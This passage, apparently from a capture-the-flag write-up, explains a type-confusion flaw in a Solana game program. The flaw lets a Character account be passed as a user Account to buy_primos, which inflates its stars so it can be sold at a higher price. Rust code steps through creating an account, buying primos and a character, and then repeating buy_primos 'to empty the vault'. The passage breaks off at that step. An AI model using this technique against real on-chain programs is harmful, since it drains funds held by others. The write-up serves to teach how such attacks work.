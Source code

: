 So by passing to `buy_primos` function a `Character` and an `amount` big enough to steal enough lamports, we can see that the `stars` field gets increased of `amount`, so we can use that function to increase the value of a character that we can then sell to get `character.stars as u64 * BASE_PRICE * LOSS_RATIO) / 100` lamports.

### Exploit sequence

#### Setup all the variables
```rust
let account_iter = &mut accounts.iter();
let user = next_account_info(account_iter)?;
let gft = next_account_info(account_iter)?;
let character_info = next_account_info(account_iter)?;
let useraccount = next_account_info(account_iter)?;
let vault = next_account_info(account_iter)?;
let sys = next_account_info(account_iter)?;

let vault_bump = instruction_data[0];

let character_id = 0;
let account_name = "f1x3r";
```


#### Create an account
```rust
let _ = invoke(
    &create_useraccount(*gft.key, *user.key, account_name),
    &[useraccount.clone(), user.clone(), _sys.clone()],
);
```

#### Buy enough `primos` to buy a `Character`, e.g. 800
```rust
let _ = invoke(
    &buy_primos(*gft.key, *user.key, account_name, 800),
    &[
        useraccount.clone(),
        user.clone(),
        vault.clone(),
        sys.clone(),
    ],
);

```
#### Buy a character
```rust
let _ = invoke(
    &buy_character(*gft.key, *user.key, account_name, character_id),
    &[
        useraccount.clone(),
        user.clone(),
        character_info.clone(),
        vault.clone(),
        sys.clone(),
    ],
);
```
#### Call enough `buy_primos` with the `Character` we just bought in place of an `Account`, e.g. 303 (to empty the vault)
```rust
// the amount of stars to add to our character
let amount = 303;

```